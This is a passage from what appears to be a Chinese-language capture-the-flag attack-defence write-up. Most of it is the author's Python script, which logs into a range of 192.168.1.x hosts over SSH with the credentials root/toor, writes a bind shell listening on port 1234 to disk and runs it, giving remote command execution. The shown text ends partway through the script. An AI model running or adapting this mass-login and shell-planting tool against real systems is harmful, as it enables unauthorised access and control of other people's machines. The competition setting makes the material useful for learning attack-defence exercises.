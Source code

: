执行命令可以是写webshell或着直接查看flag 并返回提交

这里献上自己写的批量ssh登录并反弹python shell

```python
#-*- coding:utf-8 -*-
import paramiko
import threading
import queue
import time
#反弹shell python

q=queue.Queue()
#lock = threading.Lock()

# ssh 用户名 密码 登陆
def ssh_base_pwd(ip,port,username,passwd,cmd):
    port = int(port)
    ssh = paramiko.SSHClient()

    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    ssh.connect(hostname=ip, port=port, username=username, password=passwd)

    stdin,stdout,stderr = ssh.exec_command(cmd)

    result = stdout.read()
    if not result :
        result = stderr.read()
    ssh.close()
    
    return result.decode()

def main(x):
    shell = '''
    #服务器端
    import socket
    import os
    s=socket.socket()   #创建套接字 #s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

    s.bind(('0.0.0.0',1234))    #绑定地址和端口#0.0.0.0接收任意客户端ip连接
    s.listen(5)                 #调用listen方法开始监听端口，传入的参数为等待连接的最大数量
    con,addr=s.accept()     #接受一个客户端的连接
    #print(con,addr)

    for i in range(10):
        cmd=con.recv(1024)
        print(cmd)
        command=cmd.decode()
        if command.startswith('cd'):
            os.chdir(command[2:].strip())   #切换路径
            result=os.getcwd()      #显示路径
        else:
            result=os.popen(command).read()
        if result:
            con.send(result.encode())
        else:
            con.send(b'OK!')
    '''
    cmd = 'echo \"%s\" > ./shell.py' % (shell) +'&& python3 ./shell.py'
    port = '22'
    username = 'root'
    passwd = 'toor'
    
    ip = '192.168.1.{}'.format(x)
```